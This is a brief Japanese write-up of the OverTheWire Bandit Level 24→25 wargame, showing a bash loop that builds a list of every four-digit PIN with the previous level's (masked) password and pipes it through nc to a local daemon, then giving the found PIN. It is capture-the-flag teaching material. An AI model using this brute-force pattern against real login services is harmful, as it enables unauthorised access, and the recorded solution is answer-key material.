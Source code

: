 ```

Bandit Level 24 → Level 25
Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time
```

今回の課題は、30002番ポートで待機しているlocalhostに接続を行い、Bandit24のパスワードと正しいPINコードをスペース区切りで送るというもの。  
PINは0000~9999の範囲であり総当り攻撃で見つける。  

まずは、総当り攻撃用のリストファイルを作成する。  
```
#!/bin/bash

pass="*******************************"

for num in {0000..9999}; do
	echo $pass $num >> brutelist.txt
done
```

次にncで接続を行い作成したリストファイルを流し込む。  

`cat brutelist.txt | nc localhost 30002`

PINコードが`9297`が正しいコードだった。  

クリア。  

